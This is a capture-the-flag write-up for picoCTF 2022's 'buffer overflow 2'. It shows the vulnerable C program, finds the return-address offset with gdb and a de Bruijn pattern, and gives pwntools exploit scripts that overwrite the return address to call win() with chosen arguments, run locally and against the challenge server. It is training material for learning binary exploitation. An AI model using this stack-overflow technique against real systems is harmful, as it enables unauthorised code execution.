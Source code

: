 # buffer overflow 2

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information

```text
Level: Medium
Tags: picoCTF 2022, Binary Exploitation, gets, arguments_on_the_stack
Author: SANJAY C / PALASH OSWAL

Description:
Control the return address and arguments

This time you'll need to control the arguments to the function you return to! 
Can you get the flag from this program?

You can view source here. And connect with it using nc saturn.picoctf.net 52580

Hints:
1. Try using GDB to print out the stack once you write to it.
```

Challenge link: [https://play.picoctf.org/practice/challenge/259](https://play.picoctf.org/practice/challenge/259)

## Solution

This challenge is a continuation of the [previous challenge](buffer_overflow_1.md) but with arguments also.

### Analyze the given files

Let's start by looking at the given files. First the C source code.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

Compared to the previous challenge the major differences are:

- The argument checks in the `win` function
- No printing of the memory address to help us
- The slightly larger `BUFSIZE` of `100` bytes.

The `vuln` file is still a 32-bit non-stripped ELF binary

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_2]
└─$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=a429aa852db1511dec3f0143d93e5b1e80e4d845, for GNU/Linux 3.2.0, not stripped
```

### Manually identifying the offset

Let's create a [de Bruijn sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence) that is 200 bytes long.

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_2]
└─$ ~/python_venvs/pwntools/bin/cyclic 200 > pattern_200.txt
```

Then we try it out locally to find the offset with `gdb`

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_2]
└─$ gdb -q vuln                 
Reading symbols from vuln...
(No debugging symbols found in vuln)
(gdb) run < pattern_200.txt 
Starting program: /mnt/hgfs/CTFs/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_2/vuln < pattern_200.txt
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Please enter your string: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab

Program received signal SIGSEGV, Segmentation fault.
0x62616164 in ?? ()
(gdb) exit
A debugging session is active.

        Inferior 1 [process 87839] will be killed.

Quit anyway? (y or n) y

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_2]
└─$ ~/python_venvs/pwntools/bin/cyclic -l 0x62616164        
112
```

So the offset on the stack to the return address is `112` bytes.

### Get the addess of the win function

Now we need to find out the virtual address of the `win` function.  
This can be done with `objdump` or `gdb`

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_2]
└─$ objdump -t vuln | grep win
08049296 g     F .text  000000a2              win

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_2]
└─$ gdb -batch -ex 'info functions' vuln | grep win
0x08049296  win
```

So the address to `win` is `0x08049296`.

### Write an exploit

Let's write a small exploit in Python with the help of [pwntools](https://docs.pwntools.com/en/stable/index.html)

```python
#!/usr/bin/python

from pwn import *
import sys

offset = 112
padding = b'A'

win = p32(0x08049296)       # Address to win function
dummy = p32(0x42424242)     # Fake return address
arg_1 = p32(0xCAFEF00D)     # Argument 1
arg_2 = p32(0xF00DF00D)     # Argument 2

payload = padding*offset + win + dummy + arg_1 + arg_2
    
sys.stdout.buffer.write(payload)
```

And then we try it out locally

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_2]
└─$ echo "picoCTF{fake_flag}" > flag.txt

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_2]
└─$ ~/python_venvs/pwntools/bin/python local_exploit.py | ./vuln
Please enter your string: 
���AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�4321
picoCTF{fake_flag}
zsh: done                ~/python_venvs/pwntools/bin/python local_exploit.py | 
zsh: segmentation fault  ./vuln
```

It works, but later the program crashes due to un invalid memory address after the `win` function.  
We can ignore this.

### Get the flag

Let's modify the Python script to connect to the server instead

```python
#!/usr/bin/python

from pwn import *

SERVER = 'saturn.picoctf.net'
PORT = 52580

io = remote(SERVER, PORT)

offset = 112
padding = b'A'

win = p32(0x08049296)       # Address to win function
dummy = p32(0x42424242)     # Fake return address
arg_1 = p32(0xCAFEF00D)     # Argument 1
arg_2 = p32(0xF00DF00D)     # Argument 2

payload = padding*offset + win + dummy + arg_1 + arg_2
    
io.sendline(payload)
print(io.recvallS())
io.close()
```

And then we run the script to get the flag

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_2]
└─$ ~/python_venvs/pwntools/bin/python remote_exploit.py
[+] Opening connection to saturn.picoctf.net on port 52580: Done
[+] Receiving all data: Done (190B)
[*] Closed connection to saturn.picoctf.net port 52580
Please enter your string: 
ð
picoCTF{<REDACTED>}
```

For additional information, please see the references below.

## References

- [Buffer overflow - Wikipedia](https://en.wikipedia.org/wiki/Buffer_overflow)
- [C (programming language) - Wikipedia](https://en.wikipedia.org/wiki/C_(programming_language))
- [de Bruijn sequence - Wikipedia](https://en.wikipedia.org/wiki/De_Bruijn_sequence)
- [gdb - Linux manual page](https://man7.org/linux/man-pages/man1/gdb.1.html)
- [gets function - cplusplus.com](https://cplusplus.com/reference/cstdio/gets/)
- [grep - Linux manual page](https://man7.org/linux/man-pages/man1/grep.1.html)
- [objdump - Linux manual page](https://man7.org/linux/man-pages/man1/objdump.1.html)
- [python - Linux manual page](https://linux.die.net/man/1/python)
- [Python (programming language) - Wikipedia](https://en.wikipedia.org/wiki/Python_(programming_language))
- [pwntools - Documentation](https://docs.pwntools.com/en/stable/index.html)
